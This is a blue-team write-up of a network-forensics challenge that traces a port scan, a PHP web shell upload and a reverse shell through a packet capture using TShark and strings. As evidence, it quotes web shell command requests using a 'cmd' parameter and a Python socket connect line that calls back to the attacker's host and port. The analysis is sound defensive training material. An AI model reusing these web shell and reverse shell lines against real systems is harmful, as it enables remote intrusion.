


# Network Analysis - Web Shell

## Challenge Information

| Field | Details |
|---|---|
| Challenge | Network Analysis - Web Shell |
| Category | Network Analysis / Web Shell Investigation |
| Platform | Blue Team Labs Online (BTLO) |
| Environment | Kali Linux |
| Evidence File | `BTLOPortScan.pcap` |
| Evidence Size | Approximately 584 KB |
| Primary Tools | TShark, strings, grep, sort, uniq, awk |
| Screenshot | `images/Screenshot_16.png` |

## Overview

This challenge investigates network traffic associated with reconnaissance, port scanning, web application activity, web shell upload, and subsequent command execution.

The investigation uses a PCAP file to identify the suspicious scanning host, determine the observed TCP port range and scan type, identify reconnaissance tools from HTTP User-Agent values, and examine HTTP requests associated with a PHP web shell.

The final stage focuses on command execution through the uploaded web shell and a Python-based reverse shell connection.

## Evidence

The primary evidence source is `BTLOPortScan.pcap`, provided as a ZIP archive protected with the challenge password `btlo`.

The original PCAP was approximately 584 KB according to the challenge notes.

The investigation steps and results documented below are based on the supplied challenge notes. The original PCAP was not independently re-acquired and re-analyzed during preparation of this repository.

## Investigation Methodology

### 1. Identify the suspicious scanning host

The first step was to identify the source IP addresses generating TCP SYN packets without the ACK flag.

Command:

    tshark -r BTLOPortScan.pcap -Y "tcp.flags.syn == 1 && tcp.flags.ack == 0" -T fields -e ip.src | sort | uniq -c | sort -rn

Recorded output:

| Source IP | SYN packet count |
|---|---:|
| 10.251.96.4 | 1237 |
| 172.20.10.5 | 37 |
| 10.251.96.5 | 4 |
| 172.20.10.2 | 3 |

The highest count was associated with `10.251.96.4`, making it the primary candidate for the scanning host.

### 2. Determine the scanned port range

The destination TCP ports associated with SYN packets from the suspicious host were examined.

Commands:

    tshark -r BTLOPortScan.pcap -Y "ip.src == 10.251.96.4 && tcp.flags.syn == 1" -T fields -e tcp.dstport | sort -n | uniq | head -5

    tshark -r BTLOPortScan.pcap -Y "ip.src == 10.251.96.4 && tcp.flags.syn == 1" -T fields -e tcp.dstport | sort -n | uniq | tail -5

The recorded lowest and highest destination ports were `1` and `1024`.

This establishes the observed port range in the challenge notes. A complete assessment of scan coverage would require examining the full set of destination ports and packet sequence.

### 3. Identify the port scan type

The investigation examined TCP SYN packets without ACK from the suspicious host.

Command:

    tshark -r BTLOPortScan.pcap -Y "ip.src == 10.251.96.4 && tcp.flags.syn == 1 && tcp.flags.ack == 0" | wc -l

A large number of SYN packets without ACK is consistent with a TCP SYN scan, commonly described as a half-open scan.

### 4. Identify reconnaissance tools

HTTP User-Agent values were extracted from the PCAP.

Command:

    tshark -r BTLOPortScan.pcap -Y "http.user_agent" -T fields -e http.user_agent | sort -u

Recorded values:

- `gobuster/3.0.1`
- `sqlmap/1.4.7#stable (http://sqlmap.org)`

These User-Agent strings indicate requests associated with Gobuster and SQLmap. User-Agent values can be modified or spoofed, so they should be treated as indicators rather than conclusive proof of the exact software used.

### 5. Examine the PHP upload request

HTTP POST requests and their Referer headers were extracted.

Command:

    tshark -r BTLOPortScan.pcap -Y "http.request.method == POST" -T fields -e http.request.uri -e http.referer

Recorded output:

    /upload.php    http://172.20.10.2/editprofile.php
    /upload.php    http://10.251.96.5/editprofile.php

The evidence distinguishes two different components:

- `/upload.php` is the HTTP request destination and appears to handle the POST upload request.
- `editprofile.php` is the Referer page from which the request was initiated.

The challenge notes record `editprofile.php` as the answer to the question about the PHP file through which the attacker uploaded the web shell. The packet details shown in the notes, however, identify `/upload.php` as the POST destination. Both values are retained here to avoid confusing the referring page with the upload handler.

### 6. Identify the uploaded web shell

The PCAP was searched for multipart upload filename fields.

Command:

    strings BTLOPortScan.pcap | grep -i "filename"

Recorded values:

    Content-Disposition: form-data; name="fileToUpload"; filename="myphoto.png"
    Content-Disposition: form-data; name="fileToUpload"; filename="dbfunctions.php"

The challenge notes identify `dbfunctions.php` as the uploaded PHP web shell.

### 7. Identify the command execution parameter

HTTP request strings were searched for PHP URLs containing query parameters.

Command:

    strings BTLOPortScan.pcap | grep -E "\.php\?[a-z]+="

Recorded requests:

    GET /uploads/dbfunctions.php?cmd=id HTTP/1.1
    GET /uploads/dbfunctions.php?cmd=whoami HTTP/1.1

The parameter used to pass commands to the web shell was `cmd`.

### 8. Identify the first command executed

The first recorded command execution request was extracted.

Command:

    strings BTLOPortScan.pcap | grep -E "\?cmd=" | head -1

Recorded request:

    GET /uploads/dbfunctions.php?cmd=id HTTP/1.1

The first command was `id`.

### 9. Identify the shell connection type

The PCAP strings were searched for socket and connection-related content.

Command:

    strings BTLOPortScan.pcap | grep -i "socket\|connect"

The recorded Python code creates a TCP socket and initiates an outbound connection to `10.251.96.4` on port `4422`.

This behavior is consistent with a reverse shell: the compromised host initiates a connection back to the remote listener.

### 10. Identify the reverse shell port

The connection parameters were extracted from the recorded Python command.

Command:

    strings BTLOPortScan.pcap | grep -oE "connect\(\(.*\)\)"

Recorded value:

    connect(("10.251.96.4",4422))

The destination port was `4422`.

## Questions and Answers

| # | Question | Answer |
|---|---|---|
| Q1 | What is the IP responsible for conducting the port scan activity? | `10.251.96.4` |
| Q2 | What is the port range scanned by the suspicious host? | `1-1024` |
| Q3 | What is the type of port scan conducted? | `TCP SYN` |
| Q4 | What two tools were used for reconnaissance against open ports? | `Gobuster 3.0.1` and `SQLmap 1.4.7` |
| Q5 | What is the name of the PHP file associated with the upload? | `editprofile.php` (Referer); POST destination: `/upload.php` |
| Q6 | What is the name of the uploaded web shell? | `dbfunctions.php` |
| Q7 | What parameter is used by the web shell to execute commands? | `cmd` |
| Q8 | What is the first command executed by the attacker? | `id` |
| Q9 | What type of shell connection does the attacker obtain? | `Reverse shell` |
| Q10 | What port is used for the shell connection? | `4422` |

## Consolidated Command Reference

The following commands summarize the investigation workflow.

### Identify scanning sources

    tshark -r BTLOPortScan.pcap -Y "tcp.flags.syn == 1 && tcp.flags.ack == 0" -T fields -e ip.src | sort | uniq -c | sort -rn

### Identify the observed destination port range

    tshark -r BTLOPortScan.pcap -Y "ip.src == 10.251.96.4 && tcp.flags.syn == 1" -T fields -e tcp.dstport | sort -n | uniq

### Examine SYN scan traffic

    tshark -r BTLOPortScan.pcap -Y "ip.src == 10.251.96.4 && tcp.flags.syn == 1 && tcp.flags.ack == 0" | wc -l

### Extract HTTP User-Agent values

    tshark -r BTLOPortScan.pcap -Y "http.user_agent" -T fields -e http.user_agent | sort -u

### Examine HTTP POST requests and Referer headers

    tshark -r BTLOPortScan.pcap -Y "http.request.method == POST" -T fields -e http.request.uri -e http.referer

### Search upload filenames

    strings BTLOPortScan.pcap | grep -i "filename"

### Search PHP command parameters

    strings BTLOPortScan.pcap | grep -E "\.php\?[a-z]+="

### Identify the first command execution request

    strings BTLOPortScan.pcap | grep -E "\?cmd=" | head -1

### Search socket and connection indicators

    strings BTLOPortScan.pcap | grep -i "socket\|connect"

### Extract connection parameters

    strings BTLOPortScan.pcap | grep -oE "connect\(\(.*\)\)"

## DFIR Findings

The challenge notes describe the following activity sequence:

1. A host at `10.251.96.4` generated a high volume of TCP SYN packets.
2. The observed destination port range was `1-1024`.
3. The traffic was consistent with TCP SYN scanning.
4. HTTP User-Agent values included Gobuster and SQLmap identifiers.
5. HTTP POST requests were directed to `/upload.php`, with `editprofile.php` appearing as the Referer.
6. A multipart upload request contained the filename `dbfunctions.php`.
7. Requests to the uploaded PHP file used the `cmd` parameter to submit commands.
8. The first recorded command request contained `id`.
9. A Python socket command initiated a connection to `10.251.96.4:4422`, consistent with reverse shell behavior.

Taken together, these indicators describe a sequence involving reconnaissance, suspected web shell upload, remote command execution, and an attempted or established reverse connection.

### Web Shell Attack Investigation Flow

**Evidence note:** The diagram summarizes findings reproduced from the original challenge notes. The original PCAP was not independently re-analyzed during repository documentation. The multipart filename does not independently confirm successful file storage, command requests do not prove successful execution, and the configured reverse connection does not confirm that a connection or interactive shell was established.

## Key Indicators

| Indicator | Value | Context |
|---|---|---|
| Suspicious source IP | `10.251.96.4` | High volume of TCP SYN packets |
| Observed port range | `1-1024` | Destination ports in challenge notes |
| Scan type | TCP SYN | SYN packets without ACK |
| Reconnaissance tools | Gobuster 3.0.1, SQLmap 1.4.7 | HTTP User-Agent values |
| Upload endpoint | `/upload.php` | HTTP POST destination |
| Referer page | `editprofile.php` | Referring page in HTTP request |
| Web shell filename | `dbfunctions.php` | Multipart upload filename |
| Command parameter | `cmd` | PHP query parameter |
| First command | `id` | First recorded command request |
| Reverse connection destination | `10.251.96.4:4422` | Python socket connection |

## Limitations and Evidence Notes

- The original PCAP was not independently re-analyzed while preparing this repository. Recorded values and answers originate from the supplied challenge notes.
- The SYN packet count alone does not prove malicious intent. It is interpreted in the context of the challenge.
- The observed minimum and maximum ports do not, by themselves, prove that every port in the range was scanned.
- HTTP User-Agent values can be spoofed and are not definitive attribution evidence.
- The POST request destination `/upload.php` and Referer page `editprofile.php` are different values. The challenge notes give `editprofile.php` as the answer, but the recorded request identifies `/upload.php` as the handler receiving the POST request.
- A multipart filename in captured traffic indicates an upload attempt or submitted filename; independent server-side evidence would be needed to confirm successful storage.
- Requests to `dbfunctions.php` containing `cmd=id` and `cmd=whoami` indicate attempted command execution through the web shell. Server-side logs or endpoint evidence would be needed to confirm the commands executed successfully.
- The Python socket code is consistent with reverse shell behavior. The supplied notes do not independently establish that the connection completed or that an interactive shell was successfully obtained.
- The IP address and port in the Python command identify the configured connection destination, not necessarily the identity of the operator.

## Learning Outcomes

This challenge reinforces practical skills in:

- Filtering and extracting packet fields with TShark.
- Identifying potential TCP SYN scanning activity.
- Examining destination port ranges.
- Extracting HTTP User-Agent values.
- Investigating HTTP POST requests and Referer headers.
- Identifying multipart upload filenames.
- Recognizing web shell command parameters.
- Tracing command execution requests in network traffic.
- Recognizing Python socket-based reverse shell behavior.
- Correlating network indicators into an incident timeline while documenting evidentiary limitations.

## Conclusion

The challenge demonstrates how packet-level analysis can reveal a progression from network reconnaissance to web application interaction and suspected remote command execution.

The most significant indicators recorded in the challenge are the scanning activity from `10.251.96.4`, the uploaded filename `dbfunctions.php`, the `cmd` parameter, and the Python socket connection targeting `10.251.96.4:4422`.

The findings should be treated as challenge-based analysis until validated against the original PCAP and, where available, corresponding server-side and endpoint evidence.

## Screenshot

